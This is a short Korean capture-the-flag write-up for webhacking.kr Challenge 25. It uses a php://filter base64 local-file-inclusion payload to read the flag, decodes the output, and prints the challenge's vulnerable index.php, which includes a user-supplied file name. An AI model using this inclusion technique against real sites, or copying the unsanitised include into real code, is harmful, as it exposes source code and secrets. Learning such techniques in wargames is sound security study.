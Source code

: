 개인적으로 따로 코드에서 필터링을 하는 것 같다고 생각을 했다.  

## 2. ``http://webhacking.kr:10001/?file=php://filter/read=convert.base64-encode/resource=flag``

그래서 인코딩을 해서 출력하게 해봤는데, 다음과 같이 나왔다.  

<img src="4.png">  

``PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==``

그래서 base64 로 디코딩하니 다음과 같이 나왔다.  

```php
<?php
  echo "FLAG is in the code";
  $flag = "FLAG{this_is_your_first_flag}";
?>
```

왜 인코딩을 했을 때 ``FLAG is in the code`` 가 나오지 않았는 지 궁금했는데, 찾아봤을 때 인코딩을 해서 **php 코드로 인식을 못했기** 때문이라는 글이 있었다.  

# 참고

위처럼 동일하게해서 **index.php** 를 읽어봤다.  

```php
<html>
<head>
<meta http-equiv=Content-Type content="text/html; charset=euc-kr">
<title>Challenge 25</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
textarea { background:silver; color:black; fnot-size:9pt; }
</style>
</head>
<body>
<?php
  echo("<pre>");
  system("ls -al");
  echo("</pre>");
  if(!$_GET['file']) echo("<meta http-equiv=refresh content=0;url=?file=hello>");
  echo "<hr><textarea rows=10 cols=100>";
  $file = $_GET['file'].".php";
  if($file == "index.php") exit(); // anti infinite loop
  include $file;
  echo "</textarea>";
?>
</body>
```